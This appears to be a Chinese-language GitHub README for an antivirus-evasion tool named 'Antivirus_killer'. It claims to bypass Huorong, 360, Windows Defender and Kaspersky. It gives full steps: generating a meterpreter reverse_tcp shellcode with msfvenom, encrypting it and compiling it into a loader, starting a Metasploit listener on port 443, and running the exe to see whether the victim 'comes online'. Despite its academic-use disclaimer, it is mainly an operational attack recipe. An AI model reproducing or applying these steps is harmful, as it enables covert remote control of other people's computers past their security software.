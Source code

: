 # Antivirus_killer
免杀主流防病毒软件<br />
测试于2024年10月17日加载器2024_9_24(需配合新版加密器)可过最新版火绒、360核晶模式、windows自带杀软、卡巴斯基<br />
该项目仅供学术交流参考，请大家合法学习和使用项目
# 使用方法
## 生成shellcode
msfvenom LHOST=x.x.x.x LPORT=443 -p windows/x64/meterpreter/reverse_tcp -f c
## 加密shellcode 
将生成的shellcode复制到加密器.c的buf变量中并编译运行
## 编译加载器
将加密后的shellcode 复制到加载器的shellcode变量中编译
## 准备msf监听器
msfconsole<br />
use exploit/multi/handler<br />
set payload windows/x64/meterpreter/reverse_tcp<br />
set LHOST x.x.x.x<br />
set LPORT 443<br />
run<br />
## 双击编译好的exe观察是否上线
![image](https://github.com/user-attachments/assets/d840c522-d096-4e4d-805e-3aca6461b1d7)

